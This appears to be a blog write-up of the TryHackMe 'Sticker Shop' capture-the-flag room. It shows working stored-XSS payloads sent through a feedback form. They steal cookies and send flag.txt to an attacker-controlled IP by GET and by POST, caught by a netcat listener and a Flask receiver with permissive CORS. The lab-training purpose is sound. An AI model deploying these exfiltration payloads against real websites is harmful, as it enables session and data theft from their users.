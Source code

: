 ```yaml
---
title: "The Sticker Shop"
date: 2024-11-29T16:02:41-06:00
draft: false
tags:
- THM
- XSS
- Web Exploitation
---
```


![The Sticker Shop](/img/the_sticker_shop/the_sticker_shop.png#center)

### Description
[The Sticker Shop](https://tryhackme.com/r/room/thestickershop) is an easy-rated challenge on Tryhackme. We exfiltrate ```flag.txt``` from the web server through a XSS attack.


### Walkthrough
We are told that we need to read the flag at ```http://10.10.102.204:8080/flag.txt```. However, visiting the URL, we are met with a 401 Unauthorized message, meaning we are not authenticated to view the file.

![Direct access 401 forbidden](/img/the_sticker_shop/401.png)

If we backtrack to the webapp's homepage, we see that there is a page for submitting feedback where we can presumably send content to the sticker shop staff. This might be our way in.

![](/img/the_sticker_shop/feedback.png)

I started by sending a simple XSS payload to attempt to exfiltrate user cookies.

```html
<script>new Image().src="http://10.13.48.55/?c="+document.cookie</script>
```

```
┌──(kali㉿kali)-[/tmp]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.102.204 - - [29/Nov/2024 19:56:47] "GET /?c= HTTP/1.1" 200 -
10.10.102.204 - - [29/Nov/2024 19:56:58] "GET /?c= HTTP/1.1" 200 -
```

Unfortunately, this does not work. The webapp may have some sort of defense mechanism (e.g. HttpOnly). Heck, it may not be using cookies at all. Without further information, it will be difficult to obtain any account secrets, if they exist in the first place. We need to focus on directly accessing ```flag.txt``` through our XSS payload instead. 

A quick and dirty way of doing this would be embedding ```flag.txt```'s contents into a query string. Below is a payload that reads ```flag.txt``` on the server side and sends the data back to us with a GET request.

```html
<script>
    function sendData(data) {
        const url = new URL("http://10.13.48.55");
        url.searchParams.append("data", data);
        fetch(url)
            .then(response => response.text())
    }

    fetch("http://127.0.0.1:8080/flag.txt")
        .then(response => response.text())
        .then(data => {
            sendData(data);
        })
        .catch(error => console.error('Error:', error));
</script>
```

![Quick and dirty GET flag](/img/the_sticker_shop/flag_get.png)

But what if you want to read a file that is much larger, or you don't want the data to be visible in the URL, perhaps for greater stealth? In that case, you would be better off using POST instead of GET.

```html
<script>
    function sendData(data){
        fetch("http://10.13.48.55", {
            method: "POST",
            headers: {
                "Content-Type": "application/json"
            },
            body: JSON.stringify(data)
        })
    }

    fetch("http://127.0.0.1:8080/flag.txt")
        .then(response => response.text())
        .then(data => {
            sendData(data)
        })
</script>
```

The problem is that Python's simple HTTP server only supports GET and HEAD requests, and the sticker website is sending a preflight request, so netcat is out of the question as well...

```
┌──(kali㉿kali)-[/tmp]
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [10.13.48.55] from (UNKNOWN) [10.10.102.204] 52614
OPTIONS / HTTP/1.1
Host: 10.13.48.55
Connection: keep-alive
Accept: */*
Access-Control-Request-Method: POST
Access-Control-Request-Headers: content-type
Origin: http://127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

We need to respond appropriately in order to receive the POST request containing ```flag.txt```. Specifically, we need to respond with the correct ```Access-Control-Allow-Origin```, ```Access-Control-Allow-Methods```, and ```Access-Control-Allow-Headers``` headers.

```
Access-Control-Allow-Origin: Specifies what domains are allowed to access a resource.
Access-Control-Allow-Methods: Indicates which HTTP methods are allowed.
Access-Control-Allow-Headers: Represents the HTTP headers that are permitted.
```

Now to whitelist any host[^1], the HTTP POST and OPTIONS, as well as the Content-Type header. I spun up a Flask server to do this:

[^1]: The request from flag shop comes from a random high port and there is no way to allow a single IP and any port on its.

```python
from flask import Flask, request


app = Flask(__name__)

@app.route('/', methods=['POST', 'OPTIONS'])
def handler():
    if request.method == 'OPTIONS':
        headers = {
                'Access-Control-Allow-Origin' : '*',
                'Access-Control-Allow-Methods' : 'POST, OPTIONS',
                'Access-Control-Allow-Headers' : 'Content-Type'
        }
        return '', 200, headers

    elif request.method == 'POST':
        data = request.get_json()
        print(data)
        return '', 200

    return '', 405

if __name__ == '__main__':
    app.run()
```

And now, we should successfully receive our flag.

![POST flag](/img/the_sticker_shop/flag.png)